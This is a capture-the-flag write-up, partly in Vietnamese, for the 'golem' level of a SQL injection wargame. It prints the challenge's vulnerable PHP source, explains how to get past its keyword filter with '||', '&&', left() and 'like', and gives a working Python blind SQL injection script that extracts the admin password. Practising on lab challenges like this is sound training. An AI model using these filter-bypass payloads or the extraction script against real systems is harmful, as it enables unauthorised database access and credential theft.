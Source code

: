 golem
===
### Description
- Source:
```
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem"); 
  highlight_file(__FILE__); 
?>
```

### Soluition
- Phân tích code: Ở bài chương trình cho chúng ta nhập vào ở `pw` và filter  `or, and, substr, =`. Để giải quyết bài này chúng ta cần nhập `pw` đúng với kết quả của `pw` được trả về trong database.
- Chúng ta có thể thay thế `or` bằng `||`, `and` bằng `&&`, `substr` bằng `mid, left, right,...` ở đây mình sử dụng left, `=` bằng `like`

#### Payload
- Code:
```
import requests
import string

url="https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php"
header = {'Cookie':'PHPSESSID=l0ppfki89ui4onrms8661i27el'}
flag = ''
lists = string.digits+string.ascii_lowercase+string.ascii_uppercase
for i in range(1,256):
  for j in lists:
    temp = flag+j
    param = f"pw='||true%26%26left(pw,{i}) like binary '{temp}'-- -"
    print(param)
    r = requests.get(url=url,params=param,headers=header)
    if "Hello admin" in r.text:
      flag += j
      print(flag)
      break
  if len(flag)==8:
    exit(0)
```